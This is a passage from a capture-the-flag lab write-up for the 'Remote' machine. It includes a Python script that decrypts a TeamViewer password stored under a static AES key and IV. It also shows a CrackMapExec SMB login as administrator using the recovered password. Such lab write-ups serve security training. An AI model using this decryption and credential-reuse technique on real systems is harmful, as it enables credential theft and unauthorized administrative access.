```
        password = Rex::Text.to_ascii(plaintext, 'utf-16le')
        if plaintext.empty?
            return nil
        end
    rescue OpenSSL::Cipher::CipherError => e
        print_error("Unable to decrypt the data. Exception: #{e}")
    end

```

It’s using AES128 in CBC mode with a static key and iv. I can easily recreate this in a few lines of Python:

```

#!/usr/bin/env python3

from Crypto.Cipher import AES

key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
iv = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
ciphertext = bytes([255, 155, 28, 115, 214, 107, 206, 49, 172, 65, 62, 174, 
                    19, 27, 70, 79, 88, 47, 108, 226, 209, 225, 243, 218, 
                    126, 141, 55, 107, 38, 57, 78, 91])

aes = AES.new(key, AES.MODE_CBC, IV=iv)
password = aes.decrypt(ciphertext).decode("utf-16").rstrip("\x00")

print(f"[+] Found password: {password}")

```

Running it finds a password:

```

root@kali# python3 decrypt_tvpass.py 
[+] Found password: !R3m0te!

```

### Shell

That password happens to work for the administrator account on Remote:

```

root@kali# crackmapexec smb 10.10.10.180 -u administrator -p '!R3m0te!'
SMB         10.10.10.180    445    REMOTE           [*] Windows 10.0 Build 17763 x64 (name:REMOTE) (domain:REMOTE) (signing:False) (SMBv1:False)
SMB         10.10.10.180    445    REMOTE           [+] REMOTE\administrator:!R3m0te! (Pwn3d!)

```

The `(Pwn3d!)` shows this is an admin account, so I should be able to get a shell.
